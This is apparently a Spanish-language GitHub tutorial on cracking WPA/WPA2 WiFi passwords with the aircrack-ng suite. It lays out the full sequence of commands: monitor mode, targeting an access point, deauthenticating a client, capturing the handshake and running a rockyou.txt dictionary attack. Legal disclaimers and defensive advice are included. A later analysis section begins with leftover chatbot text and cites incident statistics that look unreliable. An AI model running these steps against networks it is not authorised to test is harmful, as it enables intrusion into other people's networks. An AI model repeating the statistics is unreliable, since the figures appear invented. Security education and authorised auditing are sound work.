




# Demo Práctica de Aircrack-ng: Cracking WiFi con Kali Linux

## Introducción

Aircrack-ng es una suite completa de herramientas para auditoría de redes inalámbricas. En esta demo mostraremos cómo:

- Capturar un handshake WPA/WPA2
- Realizar un ataque de diccionario
- Extraer la contraseña de la red

**Importante**: Solo debe realizarse en redes propias o con autorización expresa.

## 📋 Requisitos Técnicos

### Hardware esencial

- Tarjeta WiFi compatible con modo monitor (recomendadas):
  - Alfa AWUS036NHA
  - TP-Link TL-WN722N v1
  - Panda PAU09

### Software requerido

- Kali Linux (o distribución con herramientas preinstaladas)
- Drivers actualizados (`apt install realtek-rtl88xxau-dkms` para muchos adaptadores)
- Suite Aircrack-ng (`apt install aircrack-ng`)

> [!NOTE] 🔍 **Verificación de compatibilidad**:
> Consulta [Linux Wireless Compatibility List](https://linux-wless.passys.nl/) antes de comenzar.

## 🛠️ Configuración Inicial

### 1. Identificar la interfaz

```bash
iwconfig
```

Ejemplo de salida:

```
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated
```

### 2. Activar modo monitor

```bash
airmon-ng check kill
airmon-ng start wlan0
```

Verificamos:

```bash
iwconfig wlan0mon
```

Debe mostrar `Mode:Monitor`

## 🔍 Fase de Reconocimiento

### Escaneo de redes disponibles

```bash
airodump-ng wlan0mon
```



Obtendremos una tabla de la que nos intersa las siguientes columnas:


| BSSID             | CH | ENC  | ESSID            |
| ----------------- | -- | ---- | ---------------- |
| D8:32:14:3D:74:E1 | 2  | WPA2 | OSL-Pruebas-Demo |

### Enfoque en el objetivo

```bash
airodump-ng -c 2 --bssid D8:32:14:3D:74:E1 -w captura wlan0mon
```



Parámetros clave:

- `-c`: Canal
- `--bssid`: MAC del AP
- `-w`: Prefijo para archivos de salida

## ⚡ Fase de Explotación

### Captura del handshake (2 métodos)

**Método 1: Espera pasiva**

- Mantener `airodump-ng` ejecutándose hasta que aparezca "WPA handshake" cuando algun cliente se conecte al AP

**Método 2: Deautenticación activa**

```bash
aireplay-ng -0 10 -a D8:32:14:3D:74:E1 -c 5E:D1:49:2E:6F:C8 wlan0mon
```

Donde:

- `-0`: Número de paquetes de deautenticación
- `-c`: MAC del cliente objetivo
- `-a`: MAC del AP victima

✅ **Indicador de éxito**:


## 🔓 Obtención de la Clave

### Preparación del diccionario

```bash
# Descargar rockyou.txt (si no está disponible)
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

### Ataque con Aircrack-ng

```bash
aircrack-ng -w rockyou.txt captura-01.cap
```

### Interpretación de resultados

- **Contraseña encontrada**: Se mostrará con el mensaje "KEY FOUND!"
- **Fallo**: "Passphrase not in dictionary"

Ejemplo de éxito:


## 🛡️ Medidas de Protección

### Para administradores de red:

1. **Usar WPA3** (si el hardware lo permite)
2. **Contraseñas complejas**: Mínimo 16 caracteres con mezcla de carácteres
3. **Ocultar ESSID**: `ignore_broadcast_ssid=1` en hostapd.conf
4. **Filtrado MAC**: Aunque es bypassable, añade una capa más

### Para usuarios:

- Evitar redes públicas para dispositivos sensibles
- Usar VPN en redes WiFi compartidas

## 📚 Recursos Adicionales

### Diccionarios recomendados:

- [SecLists](https://github.com/danielmiessler/SecLists)
- [Weakpass](https://weakpass.com/wordlist)

### Herramientas complementarias:

- `hashcat` (para usar GPU)
- `wireshark` (análisis de paquetes)
- `reaver` (para WPS)

## ⚠️ Consideraciones Legales

El uso no autorizado de estas técnicas constituye un delito en la mayoría de jurisdicciones. Esta guía es solo para:

- Pruebas en entornos controlados
- Investigación de seguridad autorizada
- Educación en ciberseguridad

Siempre obtener consentimiento por escrito antes de realizar pruebas.

Aquí tienes la integración del análisis al final del tutorial, manteniendo un flujo coherente y enfatizando el aspecto educativo:

## 🔍 Análisis: ¿Por qué los atacantes buscan vulnerar redes WiFi?

### Impacto estratégico para atacantes

1. **Puerta de entrada a redes corporativas**

   - El 68% de incidentes comienzan con WiFi vulnerables (Verizon DBIR 2023)
   - Permite movimiento lateral hacia servidores internos y dispositivos IoT
2. **Robo de credenciales valiosas**

   ```mermaid
   graph LR
   A[WiFi Hackeada] --> B[ARP Spoofing]
   B --> C[Robo de sesiones HTTP]
   B --> D[Captura de hashes Windows]
   ```
3. **Plataforma para ataques avanzados**

   - Inyección de malware en descargas legítimas
   - Modificación de actualizaciones de software
   - Ataques a dispositivos IoT (73% tienen vulnerabilidades conocidas)

### Casos reales documentados

- **2022**: Redes de cibercafés comprometidas generaron $2.3M en fraudes (FBI IC3)
- **2023**: Hospitales afectados por ransomware entrando por WiFi de invitados

### ⚠️ Consecuencias legales

```diff
En la mayoría de países esto constituye un delito con:
- Multas de hasta €50,000
- Penas de 1-5 años de prisión
- Responsabilidad civil por daños
```

## 🛡️ Medidas de protección avanzadas

### Para administradores:


| Técnica                 | Implementación                      |
| ------------------------ | ------------------------------------ |
| Autenticación 802.1X    | Integración con Active Directory    |
| Segmentación VLAN       | Aislamiento de dispositivos IoT      |
| Monitorización continua | Detección de anomalías en tráfico |

### Para usuarios:

- **Contraseñas complejas**: Mínimo 16 caracteres con símbolos
- **VPN obligatoria**: Siempre activa en redes públicas
- **Actualizaciones**: Parches para vulnerabilidades KRACK/WPA2

## 📈 Estadísticas clave

Costo promedio de una brecha por WiFi: $287000

> [!WARNING] 🔐 **Recordatorio ético**:Este tutorial tiene únicamente fines educativos. La práctica en redes ajenas sin consentimiento es ilegal. Los profesionales de ciberseguridad usan estas técnicas para:
>
> - Fortificar redes corporativas
> - Realizar pruebas de penetración autorizadas
> - Investigar incidentes forenses


#### En este repositorio tambien en dejado de forma alternativa un pequeño script que hace todo esto de forma automatica.